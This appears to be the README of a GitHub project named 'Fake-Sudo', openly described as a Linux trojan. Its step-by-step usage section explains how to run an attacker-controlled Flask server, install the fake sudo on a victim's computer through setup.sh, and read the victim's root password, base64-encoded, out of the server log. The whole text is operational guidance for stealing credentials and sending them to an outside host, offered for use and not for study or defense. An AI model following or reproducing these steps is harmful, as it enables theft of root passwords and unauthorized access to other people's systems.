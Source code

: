 # Fake-Sudo
A linux trojan
## How to use
<b>WARNING: this only works for linux users.</b><br><br>
The following commands shall be executed in the terminal
1. Clone the repo<br>`git clone https://github.com/NarmakTwo/Fake-Sudo.git`<br>`cd Fake-Sudo`
2. Install pip if you haven't already<br>`sudo apt instal pip -y`
3. Make a server<br>`pip install flask`<br>`python3 flask.py`
4. Go to the computer you want to steal the root password from
5. Clone the repo<br>`git clone https://github.com/NarmakTwo/Fake-Sudo.git`<br>`cd Fake-Sudo`
6. Setup the program<br>`chmod a+x setup.sh`<br>`source setup.sh`
7. Clear the screen<br>`clear`
8. Enter the public URL for the server you made (NOT 127.0.0.1)<br>`Site (include https:// or http://) <<< [your url]`
9. Once the server log says something, copy the end of the url and decode it<br>`echo [end of url] | base64 -d`, That's the root password!
10. That's it!
